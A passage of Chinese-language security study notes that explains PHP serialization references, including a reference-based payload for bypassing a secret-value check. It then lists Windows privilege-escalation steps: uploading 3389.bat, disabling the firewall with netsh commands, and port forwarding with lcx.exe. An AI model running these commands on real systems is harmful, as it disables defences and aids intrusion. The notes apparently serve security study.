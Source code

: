 ```
O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```

其中索引值2表示对象的第一个属性，1表示整个对象。向外一层，依次数，再向内。

如下序列化

```php
<?php
class Demo {
	public $index;
	public $se1f;
    public $value;
    public $other;
}

$objA = new Demo();
$objB = new Demo();

$objA->index = 1;
$objA->value = "Hello!";
$objA->se1f = &$objA;
$objB->index = 2;
$objB->value = &$objA->value;
$objB->se1f = &$objB;
$objB->other = &$objB->index;
$objA->other = &$objB;

$data = serialize($objA);
echo $data;
?>
```

结果为

```
O:4:"Demo":4:{s:5:"index";i:1;s:4:"se1f";R:1;s:5:"value";s:6:"Hello!";s:5:"other";O:4:"Demo":4:{s:5:"index";i:2;s:4:"se1f";R:4;s:5:"value";R:3;s:5:"other";R:5;}}
```
## 提权

### Windows

- 上传 `3389.bat` 并运行

- 关闭防火墙（分别适用于低版本和高版本）

```cmd
netsh firewall set opmode disable

netsh advfirewall set allprofiles state off
```

- 或者上传 `lcx.exe` 进行端口转发

